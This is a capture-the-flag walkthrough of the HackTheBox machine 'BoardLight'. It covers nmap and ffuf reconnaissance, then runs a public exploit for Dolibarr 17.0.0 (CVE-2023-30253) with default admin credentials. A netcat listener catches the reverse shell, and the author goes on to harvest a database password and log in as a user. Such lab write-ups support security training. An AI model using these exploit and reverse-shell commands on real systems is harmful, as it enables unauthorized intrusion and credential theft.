 # BoardLight

**Date:** 14, jun, 2024

**Author:** H3cktor



### Recon

**Using NMAP to make Recon**&#x20;

```bash
nmap -sC -sV 10.10.11.11
```

\-sV => Attempts to determine the version of the service running on port

\-sC  => Scan with default NSE scripts. Considered useful for discovery and safe

<figure><img src="../../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

After the **nmap** scan we can see an apache server listening on port 80:

Lets add this to our host file:

```bash
sudo nano /etc/hosts
```

<figure><img src="../../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>



Lets first try to do a directory search to try to find any hidden files/**directory's**. I will use **gobuster**  to do this:

<figure><img src="../../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Make subdomain enumeration Using **FFUF**

```bash
ffuf -H "Host: FUZZ.board.htb"  -u http://10.10.11.11/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt  -fw 6243

```

<figure><img src="../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

See i found the Subdomain crm.10.10.11.11

<figure><img src="../../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>



**I Found the crm  panel**

<figure><img src="../../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Ok Now Found the Dolibarr version 17.0.0 and i Search in Google to get any CVE&#x20;

i found [Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

Reverse Shell POC exploit for **`Dolibarr <= 17.0.0 (CVE-2023-30253)`**, PHP Code Injection

```bash
sudo python3 exploit.py   http://crm.board.htb admin admin  <ip Your tun0> 9000

```



listen revers shell => Must run listening in First

```
nc -nvlp 9000
```

\
First I provided a listener and then executed the exploit.py file. Then I provided the credentials as well as my attacker ip and the listening port. After executing, I successfully got a reverse shell

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



B0000000M!

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

I cat Found in pass or Cardantional&#x20;

put i see the user name larissa

<figure><img src="../../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

I found the main database password in the file.

<figure><img src="../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (22).png" alt=""><figcaption><p>User Own</p></figcaption></figure>

